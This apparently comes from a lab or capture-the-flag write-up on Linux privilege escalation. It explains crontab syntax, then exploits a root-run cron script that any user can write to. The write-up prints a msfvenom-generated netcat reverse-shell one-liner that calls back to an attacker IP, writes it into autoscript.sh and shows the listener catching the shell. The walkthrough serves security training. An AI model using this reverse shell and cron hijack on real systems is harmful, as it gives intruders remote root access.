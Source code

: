What is Cron?

The Cron daemon is a long-running process that executes commands at specific dates and times. You can use this to schedule activities, either as one-time events or as recurring tasks. You can create a crontab file containing commands and instructions for the Cron daemon to execute.

How to view what Cronjobs are active.

We can use the command "cat /etc/crontab" to view what cron jobs are scheduled. This is something you should always check manually whenever you get a chance, especially if LinEnum, or a similar script, doesn't find anything.

Format of a Cronjob

Cronjobs exist in a certain format, being able to read that format is important if you want to exploit a cron job. 

\# = ID

m = Minute

h = Hour

dom = Day of the month

mon = Month

dow = Day of the week

user = What user the command will run as

command = What command should be run

For Example,
```
#  m   h dom mon dow user  command

17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly
```
How can we exploit this?

We know from our LinEnum scan, that the file autoscript.sh, on user4's Desktop is scheduled to run every five minutes. It is owned by root, meaning that it will run with root privileges, despite the fact that we can write to this file. The task then is to create a command that will return a shell and paste it in this file. When the file runs again in five minutes the shell will be running as root.

Now, on our host machine- let's create a payload for our cron exploit using msfvenom.
```
msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
```
LOCALIP = 10.10.8.201

MSFVENOM OUTPUT
```
mkfifo /tmp/apzj; nc 10.10.8.201 8888 0</tmp/apzj | /bin/sh >/tmp/apzj 2>&1; rm /tmp/apzj
```
Lets replace the contents of the file with our payload using: "echo [MSFVENOM OUTPUT] > autoscript.sh"

```
user4@polobox:~/Desktop$ echo "mkfifo /tmp/apzj; nc 10.10.8.201 8888 0</tmp/apzj | /bin/sh >/tmp/apzj 2>&1; rm /tmp/apzj" > autoscript.sh
```

After copying the code into autoscript.sh file we wait for cron to execute the file, and start our netcat listener using: "nc -lvnp 8888" and wait for our shell to land

```
root@ip-10-10-8-201:~# nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.79.141 50412
who
user3    pts/0        2024-12-15 16:40 (10.10.8.201)
```

